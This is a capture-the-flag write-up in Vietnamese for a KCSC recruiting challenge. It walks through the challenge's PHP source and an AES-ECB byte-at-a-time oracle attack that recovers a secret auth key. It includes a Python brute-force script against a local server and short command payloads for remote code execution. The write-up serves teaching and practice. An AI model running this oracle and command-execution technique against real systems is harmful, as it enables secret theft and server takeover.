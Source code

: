 # [CTF] EnCryptBoizzz - Recruiting KCSC members
## Description
 ``auth_key`` and ``key_for_enc`` are not published, try to leak them.
## Solution
mình có thể xem source code thông qua payload ``?debug=hint``

```
<?php

session_start();
@require_once 'config.php';

if (isset($_GET['debug'])) {
    show_source(__FILE__);
    die();
}

define('BLOCK_SIZE', 16);

function pad($string) {
    if (strlen($string) % BLOCK_SIZE === 0)
        $plaintext = $string;
    else  {
        $s = BLOCK_SIZE - strlen($string) % BLOCK_SIZE;
        $plaintext = $string.str_repeat(chr($s), $s);
    } 
    return $plaintext;
}
function encrypt($name) {
    global $auth_key, $key_for_enc; // from config.php with luv!!

    $method = 'AES-128-ECB';
    $plaintext = pad($name.$auth_key);
    return bin2hex(openssl_encrypt($plaintext, $method, $key_for_enc, OPENSSL_RAW_DATA));
}

if (isset($_GET["name"])) 
    $_SESSION["name"] = encrypt($_GET['name']);

if (isset($_GET['file'])) { // safe() in config.php, try to guess my filter =))
    if (safe($_GET['file'])) 
        @readfile($_GET['file']);
    else die("Dont hack me please =((((");
}

if (isset($_GET['auth_key'])) {
    if ($_GET['auth_key'] === $auth_key) {
        if ( isset($_GET["command"]) && strlen($_GET["command"]) <= 5)
            @system($_GET["command"]);
    }
    else echo "Wrong auth_key!!";
}

?>


<h1>Hello hacker ^>^ </h1>

<!-- 
// TODO: Remove 

<strong>To debug, use ?debug=hint </strong>
-->
```
Review qua source code:
- có tất cả 4 param: ``name`` , ``file``, ``auth_key``, ``command``. Cụ thể là:
- param ``name`` đuợc pass qua function ``Encrypt()`` và đuợc lưu như là phần tử trong biến toàn cục ``$_SESSION``, Ở đây ta có thể đọc đuợc giá trị lưu đó thông qua param ``file`` qua path ``/tmp/sess_PHPSESSID (Note: param ``file`` đã bị pass qua function ``safe()`` được lưu trong config.php vì vậy có vẻ ta khó có thể LFI thông qua đó)
- Nếu như ta lấy đưọc đúng ``auth_key`` thì sẽ đưọc rce thông qua param ``command``, vậy quan trọng làm thế nào để láy đuợc ``auth_key``??
- Quay lại với function ``Encrypt``, hàm này thực thi mã hóa AES-ECB ( 1 loại mã hóa phổ biến và có thể bypass đuợc) với `blocksize=16` (nếu không đủ thì sẽ tự động padding vào thông qua func ``pad()``). 

Giả sử input của ta là bội số của 16 bytes ( nếu không đủ thì tự thêm padding). Để tính đuợc offset thì ta sẽ phải increase offset đó + với 1 kí tự char bất kì có độ dài blocksize*2 đến khi nào ta thu đuợc string mà trong đó có 2 block giống nhau. Nếu đã có được offset, ta sẽ có thể triển khai tấn công bằng cách tạo 1 payload có độ dài 32bytes.

Payload: ``(a*i+key_to_brute+a*i) for i in range(15,-1,-1)``
Giải thích: Ta sẽ so sánh 2 block, block1: ``a*i+key+padding voi block2: a*i+secret+padding``, bruteforce đến khi thu đuợc 2 block trùng nhau, Cứ tiếp tục bằng cách giảm size xuống và tăng len key lên.

Script:
```
#!python3
import requests
import string
sess= requests.Session()
url ="http://localhost:2010/?"
HEADERS={
    "Cookie":"PHPSESSID=9ddcfdc4a8e8aad47382c083e4d66c2c"
}
#[11:43]: 64bytes-96bytes
#[43:107]: 128-xxx bytes

filter=string.ascii_letters+string.digits
key_add=''
def check():
    req=sess.get(url+"file=/tmp/sess_9ddcfdc4a8e8aad47382c083e4d66c2c",headers=HEADERS).text
    a=req.index('"')+1 
    if req[a:a+32]==req[a+32:a+64]: # so sanh block1 vs block 2
        return True
for i in range(15,-1,-1):
    for key in filter:
        payload='a'*i+key_add+key+'a'*i
        req2=sess.get(url+'name='+payload,headers=HEADERS)
        if check():
            key_add+=key
            print(key_add)
            break
```

![img](./img/Screenshot%20from%202022-03-03%2013-14-28.png)

``auth_key`` = ``AuthKey4n00b3r``

Vậy là xong, ta có thể đọc flag thông qua param ``command`` với payload ``cat%20*`` hoặc thích len < 5 thì ``m4%20*``